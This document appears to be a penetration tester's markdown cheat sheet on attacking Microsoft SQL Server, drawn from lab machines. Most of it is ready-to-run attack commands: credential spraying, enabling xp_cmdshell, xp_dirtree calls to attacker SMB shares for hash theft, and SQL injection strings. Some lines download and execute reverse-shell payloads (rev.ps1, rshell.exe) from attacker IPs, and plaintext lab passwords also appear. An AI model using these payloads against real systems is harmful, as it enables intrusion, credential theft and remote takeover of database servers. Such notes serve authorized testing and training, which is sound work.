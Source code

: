 # MSSQL Port 1433

##### Enumeration

TEST DEFAULT CREDENTIALS.

````
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip
````

#### PowerUpSQL

```bash
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
Invoke-SQLDumpInfo -Username nagoya-industries.com\svc_mssql -password Nagoya2023 -Verbose
Get-SQLInstanceLocal -Username nagoya-industries.com\svc_mssql -password Nagoya2023 -Verbose
Invoke-SQLAudit -Verbose -Instance SQLServer1
Invoke-SQLAudit -Username nagoya-industries.com\svc_mssql -password Nagoya2023 -Verbose
sqlcmd.exe -S nagoya.nagoya-industries.com -U administrator -Q "EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
Get-SQLInstanceDomain -Verbose -DomainAccount svc_mssql
sqlcmd.exe -Q "use master; exec xp_dirtree '\\192.168.45.221\share\test'" -S nagoya.nagoya-industries.com`
```

##### Impacket

````
impacket-mssqlclient $user:$pass@$ip -windows-auth
````

##### Invoke-RunAs

If you have credentials for another user on a system, but cannot seem to login as them through any of the traditional methods, use the "Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "<reverse shell code>"" and execute a reverse shell to get onto the system as them.

##### Crackmapexec

````
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148
proxychains crackmapexec mssql -d example.com -u sql_service -p password123  -x "whoami" 10.10.126.148 -q 'SELECT name FROM master.dbo.sysdatabases;'
````

##### NetExec

Do not trust nxc's mssql  thing. try it manually, "impacket-mssqlclient administrator:hghgib6vHT3bVWf@10.10.112.154 -windows-auth"

````
nxc mssql $ip -u users.txt -p passwords.txt --continue-on-success
nxc mssql $ip -u users.txt -H $HASH --continue-on-success
````

##### Logging in

````
sqsh -S $ip -U sa -P CrimsonQuiltScalp193 #linux
proxychains sqsh -S 10.10.126.148 -U example.com\\sql_service -P password123 -D msdb #windows
````

##### Expliotation

```bash
xp_cmdshell whoami
enable_xp_cmdshell

# set up smb share locally to grab hash
xp_dirtree \\192.168.45.221\share\file
```

````
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell' , 1
reconfigure
go
xp_cmdshell 'whoami'
go
xp_cmdshell 'powershell "Invoke-WebRequest -Uri http://10.10.126.147:7781/rshell.exe -OutFile c:\Users\Public\reverse.exe"'
go
xp_cmdshell 'c:\Windows\Tasks\pwn.exe'
go
````

Revshell Command that worked:

```bash
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.163:8000/rev.ps1") | powershell -noprofile';--+
```

#### Possible Queries

Test for xp_cmdshell first. A great guide is pentestmonkey's mssql cheatsheet.

Test for stacked queries, which is unique to MSSQL. Open up share on machine, or nc on 445.

```bash
q=500'; exec xp_dirtree '\\10.10.14.8\share\file';-- - # Used 500' bc union returned on this
```

Test for xp_cmdshell.

```bash
q=500'; exec xp_cmdshell 'ping 10.10.14.8';-- - # Run sudo tcpdump -i tun0 icmp
q=500'; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; exec xp_cmdshell 'ping 10.10.14.8';-- -
q=500' UNION SELECT 1,2,3,4,5,6; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
q=500' UNION SELECT 1,2,3,4,5,6; exec sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.8:8000/rev.ps1") | powershell -noprofile';--+
```

For this, test for SQLi by doing something like '500%-- -' and checking response. Pick a field in response that only is returned for a valid search, and see when it's not returned.

```bash
select * from movies where name like '%500%';
q=500%'-- -
q=%500'-- -
q=500%' union select 1,2,3-- - # Until that field is returned
q=500' union select 1,2,3,4,5,6-- - # Same, RETURNED
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,7337,9001,4,5,6-- -
q=500' union select 1,@@version,9001,4,5,6-- -
q=500' union select 1,user,9001,4,5,6-- -
q=500' union select 1,db_name(0),9001,4,5,6-- - # Run through integers to enum dbs
q=500' union select 1,name,3,4,5,6 from streamio..sysobjects where xtype='u'-- - # db is streamio
q=500' union select 1,CONCAT(name,':',id),3,4,5,6 from streamio..sysobjects where xtype='u'-- -
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..sysobjects where xtype='u'-- - # Putting on a single row
q=500' union select 1,string_agg(CONCAT(name,':',id),'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # 901.. is the users table that was returned from id
q=500' union select 1,string_agg(name,'|'),3,4,5,6 from streamio..syscolumns where id=901578250-- - # Don't need the id anymore, the last two have returned the columns, such as password, username, but not the data itself
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from users-- -
q=500' union select 1,string_agg(concat(username,':',password),'|'),3,4,5,6 from streamio..users-- -
```

```bash
select * from movies where CONTAINS (name, '*500*');
```

#### Enumeration

```bash
SELECT name FROM sys.databases;
SELECT * FROM master.INFORMATION_SCHEMA.TABLES;
```
##### Notes

If you're chiseling to look at mssql through the website on your localhost, go to phpmyadmin directory on the website

#### On Windows

If it has MSSQL installed. If not, you could always use Chisel.

```bash
sqlcmd -U db_admin -P 'B1@hx31234567890' -Q "USE STREAMIO_BACKUP; select username,password from users;"
```

```bash
sqlcmd -?
sqlcmd -Q "select name from sys.databases"
sqlcmd -Q "select * from sys.databases"
sqlcmd -Q "select name from sys.databases"
sqlcmd -Q "use umbraco; select * from umbraco..sysobjects"
sqlcmd -Q "use ADSync; exec xp_dirtree '\\10.10.14.8\share\file'"
sqlcmd -Q "use ADSync; select name from PK_mms_management_agent"
```

```bash
. .\PowerUpSQL.ps1
Invoke-SQLAudit -Verbose
```

If AD Azure, check out "https://blog.xpnsec.com/azuread-connect-for-redteam/".

sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; exec xp_cmdshell 'whoami'"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; EXEC SP_CONFIGURE 'xp_cmdshell' , 1; exec xp_cmdshell 'c:\Windows\Tasks\shell80.exe'"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; exec xp_dirtree '\\192.168.45.221\share\file'"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; select * from umbraco..cmsMember"
sqlcmd -U sa -P DeathMarchPac1942 -Q "use umbraco; select * from umbraco..sysobjects"umbracoUserLogin umbracoUser umbracoUserGroup

.\sqlcmd.exe -Q "exec xp_cmdshell 'whoami'"
.\sqlcmd.exe -Q "use msdb; EXEC SP_CONFIGURE 'xp_cmdshell' , 1; exec xp_cmdshell 'whoami'"
sqlcmd -Q "use msdb; exec xp_cmdshell 'whoami'"
sqlcmd.exe -Q "use msdb; EXEC SP_CONFIGURE 'xp_cmdshell' , 1; exec xp_cmdshell 'C:\Users\Christopher.Lewis\Documents\shell139.exe'"